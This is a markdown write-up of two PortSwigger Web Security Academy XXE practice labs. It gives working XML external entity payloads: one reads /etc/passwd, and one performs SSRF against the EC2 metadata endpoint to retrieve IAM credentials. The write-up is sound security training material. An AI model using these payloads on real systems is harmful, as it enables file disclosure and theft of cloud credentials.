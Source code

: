 ```yaml
---
title: XXE - APPRENTICE
tags: [Portswigger Web Security Academy, Web]

category: "Security/Practice/Portswigger Web Security Academy/XXE"
---
```


# XXE - APPRENTICE
###### tags: `Portswigger Web Security Academy` `Web`
* Description: This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response. 
* Goal: To solve the lab, inject an XML external entity to retrieve the contents of the `/etc/passwd` file. 

## Lab: Exploiting XXE using external entities to retrieve files

### Recon
1. Use Burp Suite to intercept package
![](https://i.imgur.com/gMn3Cbu.png)
You can notice that it use a normal xml format.

### Exp - Inject Directly
Exploit Payload:
```xml!
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd">]><stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```
:::spoiler Success Screenshot
![](https://i.imgur.com/2Xbsq4L.png)

---
![](https://i.imgur.com/3npCzv9.png)
:::

---

## Lab: Exploiting XXE to perform SSRF attacks
* Description: This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.
The lab server is running a (simulated) EC2 metadata endpoint at the default URL, which is `http://169.254.169.254/`. This endpoint can be used to retrieve data about the instance, some of which might be sensitive.
* Goal: To solve the lab, exploit the XXE vulnerability to perform an SSRF attack that obtains the server's IAM secret access key from the EC2 metadata endpoint.

### Recon
1. Intercept Package
From the screenshot of the package, we noticed that the xml attached data could be injected.
![](https://i.imgur.com/6o3vhzm.png)

### Exp - Inject Directly
Exploit Payload:
```xml!
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]><stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```
:::spoiler Success Screenshot
![](https://i.imgur.com/hYjBqR8.png)

---
![](https://i.imgur.com/4ZBkJpE.png)
:::